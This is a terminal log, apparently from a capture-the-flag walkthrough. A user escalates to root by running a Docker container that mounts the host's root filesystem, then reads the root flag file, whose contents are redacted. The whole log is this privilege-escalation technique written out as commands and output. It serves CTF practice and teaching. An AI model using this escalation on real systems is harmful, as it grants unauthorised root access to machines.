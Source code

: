 ```
spanishdancer@ariekei:~$ docker run -it -v /:/opt bash bash 
bash-4.4# ls -l /opt
total 85
drwxr-xr-x    2 root     root          4096 Sep 21 21:13 bin
drwxr-xr-x    4 root     root          1024 Sep 21 21:14 boot
drwxr-xr-x   20 root     root          4000 Sep 26 18:07 dev
drwxr-xr-x   91 root     root          4096 Sep 24 00:55 etc
drwxr-xr-x    3 root     root          4096 Sep 16 04:04 home
lrwxrwxrwx    1 root     root            32 Sep 16 04:00 initrd.img -> boot/initrd.img-4.4.0-87-generic
drwxr-xr-x   22 root     root          4096 Sep 16 04:02 lib
drwxr-xr-x    2 root     root          4096 Sep 16 03:59 lib64
drwx------    2 root     root         16384 Sep 16 03:59 lost+found
drwxr-xr-x    3 root     root          4096 Sep 16 03:59 media
drwxr-xr-x    2 root     root          4096 Aug  1 11:16 mnt
drwxr-xr-x    4 root     root          4096 Sep 23 18:45 opt
dr-xr-xr-x  152 root     root             0 Sep 26 18:07 proc
drwx------    2 root     root          4096 Sep 26 18:38 root
drwxr-xr-x   25 root     root           940 Sep 26 19:32 run
drwxr-xr-x    2 root     root         12288 Sep 21 21:22 sbin
drwxr-xr-x    2 root     root          4096 Apr 29 08:38 snap
drwxr-xr-x    2 root     root          4096 Aug  1 11:16 srv
dr-xr-xr-x   13 root     root             0 Sep 26 18:49 sys
drwxrwxrwt    8 root     root          4096 Sep 26 19:35 tmp
drwxr-xr-x   10 root     root          4096 Sep 16 03:59 usr
drwxr-xr-x   13 root     root          4096 Sep 16 04:02 var
lrwxrwxrwx    1 root     root            29 Sep 16 04:00 vmlinuz -> boot/vmlinuz-4.4.0-87-generic
bash-4.4# 
bash-4.4# cd /opt/root/
bash-4.4# cat root.txt
<redact>

```